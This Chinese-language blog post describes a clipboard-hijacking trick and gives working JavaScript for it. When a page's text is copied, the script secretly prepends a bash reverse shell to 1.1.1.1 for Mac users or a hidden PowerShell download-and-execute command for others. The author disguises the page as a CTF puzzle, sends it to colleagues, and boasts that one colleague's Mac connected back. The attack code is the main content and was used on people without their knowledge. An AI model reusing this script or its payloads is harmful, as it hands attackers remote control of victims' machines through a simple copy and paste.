





前几天浏览知乎的时候，看到了一段挺有意思的答案，然后就复制发给群友了


知乎自动在文字前面，加了一段版权信息。看到这个刚好想到了以前看到的一个反制手段，就刚好来实践一下。



通过js控制剪贴板，你以为你复制的代码，但是其实含有payload，而且window cmd中如果复制是多行命令，会自动执行。


比如

```
test
test
```


直接复制粘贴到cmd中，第一行命令会自动执行



所以当时想到把这个伪装成一个ctf题目，打开后显示

` python -c "import base64;print(base64.b64encode('aGFoYWhh'.encode()))"`


然后通过js添加事件，如果复制的话，直接在文字前面加上payload,考虑到朋友里面用mac的比较多，专门添加了针对mac的payload

```javascript
function addLink() {
    var body_element = document.body;
    var selection;
    //var selection = window.getSelection();
    selection = window.getSelection() ? window.getSelection() : document.selection.createRange().text;
    var u = navigator.userAgent, app = navigator.appVersion;
    if (u.indexOf('Mac') > -1) {
        var payload = '/bin/bash -c "bash -i >& /dev/tcp/1.1.1.1/1998 0>&1"</br>';
    } else {
        var payload = 'powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring(\'http://1.1.1.1/a\'))'
</br>';
    }
    if (window.clipboardData) { // Internet Explorer
        var copyText = payload + selection;
        window.clipboardData.setData("Text", copyText);
        return false;
    } else {
        var copyText = payload + selection;
        var newDiv = document.createElement('div');
        newDiv.style.position = 'absolute';
        newDiv.style.left = '-99999px';
        body_element.appendChild(newDiv);
        newDiv.innerHTML = copyText;
        selection.selectAllChildren(newDiv);
        window.setTimeout(function () {
            body_element.removeChild(newDiv);
        }, 0);
    }
}
document.oncopy = addLink;
```


当时想的是，打开这个页面，想获取提示，然后把这一句Python代码复制到cmd执行，js注入payload，粘贴上线。


但是这句Python代码，效果一般。很多人直接把中间的base64字符串复制到其他网站解密了。没上线，而且payload还暴露了。


然后就改成了,这谁看谁不迷糊

`python -c "print("falg:"+b'\x01\x00\x02\x00\x09\x02')"`



如果直接复制到cmd执行，实际复制到的是

```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://1.1.1.1/a'))
python -c "print("falg:"+b'\x01\x00\x02\x00\x09\x02')"
```

cmd会直接上线，其他就要看具体终端软件的实现。


然后就愉快的发给同事做题了



啪的一声，很快啊


一个mac就上线了



over~


